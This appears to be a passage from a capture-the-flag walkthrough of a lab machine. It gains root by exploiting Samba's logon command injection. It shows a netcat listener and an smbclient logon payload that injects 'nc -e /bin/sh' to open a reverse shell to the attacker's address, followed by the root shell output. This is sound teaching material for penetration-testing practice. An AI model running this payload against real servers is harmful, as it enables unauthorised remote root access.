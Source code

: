 ### Netcat (nc)

Reads and writes data across network connections, using TCP and UDP protocols. It can also function as a server, by listening for inbound connections on arbitrary ports and then doing the same reading and writing.

Start the netcat listening command for our specified port. Once we get SMB access the shell will show up here. -nvlp options are used to be numeric only, set listen mode for inbound connects, verbose, and local port number.

```
└─# nc -nvlp 4444
listening on [any] 4444 ...
```

We can then move over the the /tmp directory and again enter nothing as the password.

The logon command is accessible from the SMB and we can use the nohup command from the 16320.rb copied over from the CVE.

{% code lineNumbers="true" %}
```
└─# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup nc -e /bin/sh 10.10.14.6 4444`"
Password: 
```
{% endcode %}

Now check netcat listening port for SMB access. We have root access. Navigate to Root and User flags.&#x20;

{% code lineNumbers="true" %}
```
└─# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 51242

whoami
root

ls

bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
```